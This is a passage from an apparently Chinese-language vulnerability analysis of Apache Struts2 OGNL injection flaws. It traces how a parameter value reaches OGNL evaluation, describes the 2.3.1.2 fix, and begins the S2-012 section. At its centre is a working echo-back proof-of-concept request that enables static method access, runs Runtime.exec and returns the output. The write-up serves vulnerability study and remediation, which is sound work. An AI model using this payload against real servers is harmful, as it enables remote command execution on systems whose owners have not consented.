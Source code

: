 然后会去当前Action对象`Example5Action`中检索`name`成员变量的值，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4491ada8a6087200219058be2a7646343de6f498.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4491ada8a6087200219058be2a7646343de6f498.png)

接着对获取到的`name`的值进行OGNL表达式计算，最后成功执行命令，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ac88318db9a3e38564668972a4eca39709f65b4f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ac88318db9a3e38564668972a4eca39709f65b4f.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0958bd075180cc8434b9ea5822e76770e745c447.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0958bd075180cc8434b9ea5822e76770e745c447.png)

### 可回显PoC

```php
/example5.action?name=(#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close())
&amp;z[(name)(fuck)]
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ae6d3504e062d208a0e9e90f5fa995d4f99735a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-5ae6d3504e062d208a0e9e90f5fa995d4f99735a.png)

漏洞修复
----

Struts2 `2.3.1.2`版本，依赖的XWork版本也是`2.3.1.2`，在拦截器`ParametersInterceptor`中，对请求参数名的合法性校验进行了增强，即增强了正则表达式。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c253c4ffa6e15e1f64c62e847e97b4bb093345fc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c253c4ffa6e15e1f64c62e847e97b4bb093345fc.png)

另外，还将`ParametersInterceptor`中的`newStack.setValue()`替换为`newStack.setParameter()`方法调用，在`OgnlValueStack#setParameter()`方法中，会通过`boolean`标志位去禁止OGNL表达式计算的。

S2-012
------

官方漏洞公告：  
<https://cwiki.apache.org/confluence/display/WW/S2-012>

影响版本：`Struts 2.0.0` - `Struts 2.3.14.2`

漏洞复现与分析
-------
